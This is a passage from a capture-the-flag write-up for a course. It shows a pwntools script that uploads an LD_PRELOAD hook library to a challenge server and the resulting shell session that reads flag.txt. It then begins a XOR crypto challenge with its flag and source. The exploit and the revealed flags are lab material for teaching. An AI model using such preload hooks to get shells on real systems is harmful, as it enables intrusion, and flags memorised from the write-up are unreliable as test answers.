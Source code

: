 
```python!
from base64 import b64encode
from pwn import *

ld_file = open('./libmyhook.so', 'rb').read()
# r = process(['python', './main.py'])
r = remote('edu-ctf.zoolab.org', 10002)

print(r.recvline())
raw_input()
r.sendline(b64encode(ld_file))
# print(b64encode(ld_file))

r.interactive()
```

```bash!
$ gcc -fPIC -shared -o libmyhook.so exp-hook.c -ldl
$ LD_PRELOAD=./libmyhook.so ./chall    # To make sure it's working
$ python exp.py
[+] Opening connection to edu-ctf.zoolab.org on port 10002: Done
b'Give me your share object:\n'

[*] Switching to interactive mode
$ ls
Makefile
chall
chall.c
flag.txt
main.py
run.sh
$ cat flag.txt
FLAG{B4by_Ld_Pr3L0aD_L1bR1rY_:)}
```

我是直接參考[^libc-hook-zhihu]的教學，非常淺顯易懂，而且還有給sample code，做的事情簡單來說就和上面提到的一樣，當它call sleep時，就會直接執行execve開shell給我，另外這篇[^another-libc-hook-essay]的教學冶獎的很好


## Extreme Xorrrrr
* Flag: `flag{xor_ThEN_><OR_1qUal_ZEr0}`

### Description
Easy crypto problem with simple tricks.

Flag Format: FLAG{...}

### Source Code
:::spoiler Source Code
```python=
from secret import flag
from Crypto.Util.number import bytes_to_long, getPrime

def xorrrrr(nums):
    n = len(nums)
    result = [0] * n
    for i in range(1, n):
        result = [ result[j] ^ nums[(j+i) % n] for j in range(n)]
    return result

secret = bytes_to_long(flag)
mods = [ getPrime(32) for i in range(20)]
muls = [ getPrime(20) for i in range(20)]

hint = [secret * muls[i] % mods[i] for i in range(20)]
```